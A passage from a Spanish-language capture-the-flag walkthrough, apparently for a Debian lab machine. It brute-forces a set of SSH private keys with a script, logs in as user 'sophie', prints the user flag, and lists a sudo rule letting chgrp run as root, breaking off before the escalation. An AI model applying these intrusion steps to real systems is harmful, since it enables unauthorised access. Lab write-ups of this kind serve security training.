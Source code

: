 ```shell
chmod +x bruteRSA.sh
chmod 600 keys/*
bash bruteRSA.sh
```

Info:

```
Probando clave: ./keys/key_BOM.key
[+] Clave válida encontrada: ./keys/key_BOM.key
```

Veremos que la clave correcta es la de las letras `BOM` por lo que haremos lo siguiente:

```shell
ssh -i ./keys/key_BOM.key sophie@<IP>
```

Info:

```
Linux debian 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu May 22 09:49:01 2025 from 192.168.5.4
sophie@debian:~$ whoami
sophie
```

Veremos que estaremos dentro por lo que leeremos la `flag` del usuario.

> user.txt

```
a99ac9055a3e60a8166cdfd746511852
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for sophie on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sophie may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/chgrp
```

Vemos que podemos ejecutar el binario `chgrp` como el usuario `root` por lo que haremos lo siguiente:
